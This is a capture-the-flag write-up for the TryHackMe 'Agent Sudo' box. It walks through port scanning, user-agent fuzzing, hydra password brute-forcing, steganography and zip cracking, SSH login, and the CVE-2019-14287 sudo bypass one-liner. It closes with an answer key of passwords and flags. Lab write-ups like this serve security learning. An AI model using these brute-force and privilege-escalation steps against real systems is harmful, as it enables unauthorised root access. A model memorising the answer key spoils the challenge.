


# Write Up for Try Hack Me box - [Agent Sudo](https://tryhackme.com/room/agentsudoctf)

This is a simple box with brute, steg and basic enumeration.
Sudo Priv esc and zip can be a learning for new users through this.

> Pratyush Prakhar (5#1NC#4N) - 02/25/2020

## RECONNAISSANCE

1. Scan the box with rustscan.
	1. Full port scan --> [nmap file here](rustscan/all.nmap).

	**Results**

	```bash
	└─$ rustscan --range 1-65535 -a 10.10.123.198 -- -oN rustscan/all.nmap
	.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
	| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
	| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
	`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
	The Modern Day Port Scanner.
	________________________________________
	: https://discord.gg/GFrQsGy           :
	: https://github.com/RustScan/RustScan :
	 --------------------------------------
	Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

	[~] The config file is expected to be at "/home/kali/.rustscan.toml"
	[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
	[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
	Open 10.10.123.198:22
	Open 10.10.123.198:21
	Open 10.10.123.198:80
	[~] Starting Script(s)
	[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

	[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 14:53 EST
	Initiating Ping Scan at 14:53
	Scanning 10.10.123.198 [2 ports]
	Completed Ping Scan at 14:53, 0.24s elapsed (1 total hosts)
	Initiating Parallel DNS resolution of 1 host. at 14:53
	Completed Parallel DNS resolution of 1 host. at 14:53, 0.01s elapsed
	DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
	Initiating Connect Scan at 14:53
	Scanning 10.10.123.198 [3 ports]
	Discovered open port 22/tcp on 10.10.123.198
	Discovered open port 80/tcp on 10.10.123.198
	Discovered open port 21/tcp on 10.10.123.198
	Completed Connect Scan at 14:53, 0.22s elapsed (3 total ports)
	Nmap scan report for 10.10.123.198
	Host is up, received syn-ack (0.23s latency).
	Scanned at 2024-02-29 14:53:34 EST for 0s

	PORT   STATE SERVICE REASON
	21/tcp open  ftp     syn-ack
	22/tcp open  ssh     syn-ack
	80/tcp open  http    syn-ack
	```

	2. Full Service and Scripts scan on the found ports. --> [nmap file here](rustscan/main.nmap)

	**Results**

	```bash
	└─$ rustscan -p21,22,80 -a 10.10.123.198 -- -sC -sV -oN rustscan/main.nmap
	.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
	| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
	| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
	`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
	The Modern Day Port Scanner.
	________________________________________
	: https://discord.gg/GFrQsGy           :
	: https://github.com/RustScan/RustScan :
	--------------------------------------
	🌍HACK THE PLANET🌍

	[~] The config file is expected to be at "/home/kali/.rustscan.toml"
	[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
	[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
	Open 10.10.123.198:22
	Open 10.10.123.198:80
	Open 10.10.123.198:21
	[~] Starting Script(s)
	[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

	[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 14:51 EST
	NSE: Loaded 156 scripts for scanning.
	NSE: Script Pre-scanning.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 14:51
	Completed NSE at 14:51, 0.00s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 14:51
	Completed NSE at 14:51, 0.00s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 14:51
	Completed NSE at 14:51, 0.00s elapsed
	Initiating Ping Scan at 14:51
	Scanning 10.10.123.198 [2 ports]
	Completed Ping Scan at 14:51, 0.21s elapsed (1 total hosts)
	Initiating Parallel DNS resolution of 1 host. at 14:51
	Completed Parallel DNS resolution of 1 host. at 14:51, 0.03s elapsed
	DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
	Initiating Connect Scan at 14:51
	Scanning 10.10.123.198 [3 ports]
	Discovered open port 80/tcp on 10.10.123.198
	Discovered open port 21/tcp on 10.10.123.198
	Discovered open port 22/tcp on 10.10.123.198
	Completed Connect Scan at 14:51, 0.21s elapsed (3 total ports)
	Initiating Service scan at 14:51
	Scanning 3 services on 10.10.123.198
	Completed Service scan at 14:51, 6.61s elapsed (3 services on 1 host)
	NSE: Script scanning 10.10.123.198.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 14:51
	Completed NSE at 14:51, 7.83s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 14:51
	Completed NSE at 14:51, 1.71s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 14:51
	Completed NSE at 14:51, 0.00s elapsed
	Nmap scan report for 10.10.123.198
	Host is up, received syn-ack (0.21s latency).
	Scanned at 2024-02-29 14:51:40 EST for 16s

	PORT   STATE SERVICE REASON  VERSION
	21/tcp open  ftp     syn-ack vsftpd 3.0.3
	22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
	|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
	|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
	80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Annoucement
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	NSE: Script Post-scanning.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 14:51
	Completed NSE at 14:51, 0.00s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 14:51
	Completed NSE at 14:51, 0.00s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 14:51
	Completed NSE at 14:51, 0.00s elapsed
	```

2. There are **3 TCP** ports open. 
	1. *Port 21* - SSH - **vsftpd 3.0.3**
	2. *Port 22* - SSH - **OpenSSH 7.6p1** 
	3. *Port 80* - WEB - **Apache httpd 2.4.29**

3. As the FTP adn SSH are locked down, let's take a crack at the WEB first.


## WEB

1. Let's first check out the web server on port 80. 
	1. We get a default page with no links going out. - Default HTML page.
	\
	\
	

	2. We will go for the low hanging fruit - robots, page source and try to get some information. Only interesting thing is the mention of the `secret page` and possible manipulation of `User-Agent` fields

2. So, did the following.
	1. Created a list of possible user [agent names](web/agent_codes.txt).
	2. Did a basic directory bruteforce to get the following [sub directories.](web/ferox.txt).
	3. Ran a fuzzer for the *user-agent* field for the `index.php` page. Only one stood out. [C or Agent C](web/agent_code.csv) directed us to a new secret page. 

3. On the `agent_C_attention.php`, we find the following.
	1. The agent-C is actually plain and simple `Chris`.
	2. His password is super weak. Scolding was a bit much. Let's take advantage of this.
	3. There is an `agent R `as well.
	4. The directory brute force din't show us any login page.
\


4. We can now brute the ssh and ftp service for the user chris.

## FTP

1. The hydra results came back for FTP giving as the insight into [chris's password.](web/chris__ftp_pass.txt).

2. Let's explore the FTP with these creds.

3. We get a couple of cute alien pictures and also a note to agent J. [This note](ftp/To_agentJ.txt) points us towards possible stegnography in the [pictures](ftp).

```bash
└─$ ftp 10.10.148.56 
Connected to 10.10.148.56.
220 (vsFTPd 3.0.3)
Name (10.10.148.56:kali): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||26513|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||36532|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> 
ftp> mget *
mget To_agentJ.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||37102|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |***********************************************************|   217       76.83 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.98 KiB/s)
mget cute-alien.jpg [anpqy?]? y
229 Entering Extended Passive Mode (|||29184|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |***********************************************************| 33143       76.29 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (51.35 KiB/s)
mget cutie.png [anpqy?]? y
229 Entering Extended Passive Mode (|||34390|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |***********************************************************| 34842       82.29 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (55.05 KiB/s)
```

## STEGNO

1. We start to look into the jpg image.

2. Let's look into our first enumeration tools - _exiftool_ and _strings_. Nothing interesting here.

3. Let's now try to find a secret cracker to get the data out. One of the tool that is [Stegseek](https://github.com/RickdeJager/stegseek?tab=readme-ov-file). It is basically stegcracker on steroids. Let's give it a run. 

```bash
└─$ stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"          
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

4. We get that the agent J is same old `James` and ssh password is `hackerrules!`. Let's use this [text](ftp/cute-alien/cute-alien.jpg.out) to our usefulness. 

5. Tried to work out the `cutie.png` file with the _binwalk_ tool. Steg becomes useless here. This allows us to view if the file has some hidden files.
	1. We find a possible hidden zip file. Let's get it and look at it.
	2. Employing old friend john to get some answers. We get the password as [this](ftp/cutie/cutie_cracked.hash).

```bash
└─$ binwalk -B cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

┌──(kali㉿kali)-[~/…/Boxes/Try Hack Me/Agent Sudo/ftp]
└─$ cd _cutie.png.extracted 
┌──(kali㉿kali)-[~/…/Try Hack Me/Agent Sudo/ftp/_cutie.png.extracted]
└─$ ls
365  365.zlib  8702.zip
┌──(kali㉿kali)-[~/…/Try Hack Me/Agent Sudo/ftp/_cutie.png.extracted]
└─$ file 8702.zip 
8702.zip: Zip archive data, at least v5.1 to extract, compression method=AES Encrypted
```

6. Lastly, the unzipping gives us another [note](ftp/cutie/To_agentR.txt). This will be a tricky one with zip. Look elsewhere. Also, we get teh same old password for the above file. Thus, we missed on proper enumeration path. Going back is always important.

## INITIAL ACCESS - SSH

1. We get into the system as `james`. We land on it's home page. We can now read the user flag. 

```bash
└─$ ssh james@10.10.148.56                                  
The authenticity of host '10.10.148.56 (10.10.148.56)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:30: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.148.56' (ED25519) to the list of known hosts.
james@10.10.148.56's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu May 23 21:31:49 UTC 2024

  System load:  0.01              Processes:           97
  Usage of /:   40.0% of 9.78GB   Users logged in:     0
  Memory usage: 21%               IP address for eth0: 10.10.148.56
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
******************************
```

2. Now let's try to get fish around and escalate to some other worthwhile user as holt has nothing. We found in low hanging fruit `sudo -l`.

```bash
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

3. We find that old friend `bash` to be root runnable. This will allow us to run the system as root using [this](https://gtfobins.github.io/gtfobins/bash/#sudo).

## PRIVESC

1. Using the above method, we escalate to root. Din't work at first. Then found something interesting on the net for this use case. [ExploitDB](https://www.exploit-db.com/exploits/47502) shows us a priv esc technique exploiting the maliciously constructed id to mimic as root. Read more [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287).

```bash
james@agent-sudo:~$ sudo /bin/bash
Sorry, user james is not allowed to execute '/bin/bash' as root on agent-sudo.
james@agent-sudo:~$ sudo /bin/bash -p
Sorry, user james is not allowed to execute '/bin/bash -p' as root on agent-sudo.
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```

2.  We get in as effective user root. Let's go get our prize.

```bash
root@agent-sudo:~# cd /root/
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
******************************

By,
DesKel a.k.a Agent R
```

## EXTRA TREAT 

Go get your own. I am tired.

## BROWNIE POINTS

1. Enumerate
	1. How many open ports? - **3**
	2. How you redirect yourself to a secret page? -**user-agent**
	3. What is the agent name? - **chris**

2. Hash cracking and brute-force
	1. FTP password - **crystal**
	2. Zip file password -**alien**
	3. steg password - **Area51**
	4. Who is the other agent (in full name)? - **james**
	5. SSH password - **hackerrules!**

3. Capture the user flag
	1. What is the user flag? - **b03d975e8c92a7c04146cfa7a5a313c7**
	2. What is the incident of the  called? - **Roswell alien autopsy**.

4. Privilege escalation
	1. CVE number for the escalation - **CVE-2019-14287**
	2. What is the root flag? - **b53a02f55b57d4439e3341834d70c062**
	3. (Bonus) Who is Agent R? - **DesKel**


**Stay Tuned On**\
[GitHub](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)